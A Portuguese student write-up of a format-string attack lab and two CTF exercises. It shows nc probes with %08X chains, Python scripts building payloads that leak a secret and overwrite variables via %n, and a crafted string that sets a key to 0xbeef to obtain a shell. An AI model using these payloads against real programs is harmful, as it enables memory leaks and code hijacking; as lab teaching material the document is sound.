

# TRABALHO REALIZADO NA SEMANA 7

## Task 1: Crashing the Program
Inicialmente começamos por desligar a randomização dos endereços de memória, usando a seguintes linha de código:

```
$ sudo sysctl -w kernel.randomize_va_space=0
```
Com recurso a 2 terminal abertos ao mesmo tempo, um a correr o docker e outro a correr com o cliente, de modo ao cliente puder interagir com o servidor e ficar registado no terminal do docker, corremos a seguinte linha de código:

```
$ echo hello | nc 10.9.0.5 9090
Press Ctrl+C
```
Tendo obtido o resultado correto no terminal do docker, como comprova a seguinte print:


Assim verificamos que o servidor retornou algumas coisas que irão ser necessárias para as próximas *tasks*, tal como o "The input buffer's address", "The secret message's address", "Frame Pointer (inside my printf)" e "The tartet variable's value (before)/(after)".

## Task 2: Printing Out the Server Program’s Memory

### A part
Para imprimir os dados da stack, considerando que temos uma vulnerabilidade de string format, precisamos apenas enviar ao servidor o analisador %8x. Isso permite-nos identificar os endereços de memória dos valores da stack. Para encontrar exatamente onde começa o buffer, inserimos 4 caracteres aleatórios que podem ser facilmente reconhecidos por nós. No nosso caso, usamos @@@@ (valor ASCII = 40404040). Dessa forma, conseguimos determinar exatamente o tamanho do buffer, usando a seguinte linha de código, tendo obtido o valor da print a seguir.

```shell
echo "@@@@%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090

```

*String escrita na terminal da esquerda e visualizado no terminal da direita*

O final '40404040' representa o endereço da string '@@@@' fornecido como entrada. É importante observar que os bytes que compõem esse endereço estão invertidos devido à arquitetura do tipo little endian.

Entre '@@@@' e '40404040', há 504 caracteres. Como cada endereço é composto por 8 caracteres (endereços de 32 bits), há um total de 504/8 = 63 endereços na pilha entre a string de formatação e o buffer.

Portanto, nessa configuração do programa, para exibir os primeiros 4 bytes da entrada inicial, é necessário criar uma string contendo exatamente 64 '%08X': os primeiros 63 para mostrar os endereços intermediários e o último para exibir os 32 bits iniciais (4 bytes) da entrada.

### B part

Seguindo uma ideia parecida à do tópico anterior, só que desta vez usando o ficheiro python fornecido para criar a format string mais facilmente, começamos por reescrever o valor da memória onde estaria a mensagem secreta, que era *0x080b4008* (obtido no terminal ao efetuar a alínea anterior) e metendo a string com valor de *" %x "*63 + " %s"*, seguindo a mesma ideia da alínea anterior, tendo obtido o seguinte script de python:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = " %x "*63 + " %s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

De seguida então corremos o script de python, tendo obtido os seguintes resultados:


Com isto acabamos a tarefa obtendo a mensagem secreta que era *"A secret message"*.

## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value
Primeiramente começamos por obvervar no terminal que o endereço do target era *0x080e5068*. De seguida vimos que pudemos usar um script de python muito parecido ao usado na alíena anterior, mudando apenas o endereço para passar a ser o endereço do *target* e alterando o último char da string de formatação de "%x" para "%n", tendo obtido então o seguinte script de python:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = " %x "*63 + " %n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Ao executar o script obtemos então o seguinte resultado:


Deste modo conseguimos alterar o valor de *target*.

### Task 3.B: Change the value to 0x5000
Para esta alínea tivemos de mudar um pouco a forma como estamos a "montar" a string de formatação. Para alterar o valor de *target* especificamente para *0x5000*, decidimos usar o "%n" que basicamente imprime o valor de chars escritos antes de aparecer. Desta forma, temos de escrever 5000 chars antes do endereço de target para depois pudermos usar o "%n" para escrever *0x5000* no endereço de target. Deste modo obtemos o seguinte script de python:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.300x "*62 + "%.1810x%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
Ao executar o script obtivemos o seguinte resultado:


Deste modo conseguimos alterar o valor de *target* para o valor pretendido de *0x00005000*.


### CTF FORMAT STRING - Exercise 1

Neste exercício, por análise ao programa main.c podemos concluir que existe uma vulnerabilidade do tipo format string no seguinte excerto de código:


Neste caso podemos observar que a função printf é chamada, dando-lhe como argumento uma string com input não controlado fornecido por um utilizador, que pode originar a vazamentos de memória. 

Como o nosso objetivo é obter a flag guardada na variável global **_flag_**, podemos simplesmente passar o endereço da variável **_flag_** e o descritor "**_%s_**" para imprimir o conteúdo guardado nessa variável.

Para isso obtivemos o endereço da flag através do gdb:


E completamos o script fornecido:


Após correr o script a flag é imprimida no stdout.


### CTF FORMAT STRING - Exercise 2

Neste exercício, por análise ao programa main.c podemos concluir que existe uma vulnerabilidade do tipo format string no seguinte excerto de código:


Também podemos observar que obtemos acesso a uma shell (onde possivelmente estará a flag) caso a variável **_key_** tenha o valor 0xbeef (48879).


Para escrever para esta variável podemos utilizar o descritor "**_%n_**", que guarda na memória o número de bytes impressos pela função printf, ou seja se conseguirmos imprimir 48879 bytes e chamar o descritor "**_%n_**", será guardado na memória o valor 48879.

Portanto vamos necessitar do endereço da variável _**key**_.




Para criar a string que desejamos enviar, vamos precisar de enviar então 48879 bytes, para isso vamos utilizar da funcionalidade do descritor "**_%x_**" que permite definir a precisão do valor hexadecimal que irá ser impresso.  

Obtemos então a seguinte string:

**_1111\x24\xB3\x04\x08%.48871x%n_**

Onde são enviados 48879 bytes, e sendo este valor guardado na variavel key.

Através do script:


Deste modo obtivemos acesso à shell e pudemos imprimir a flag:


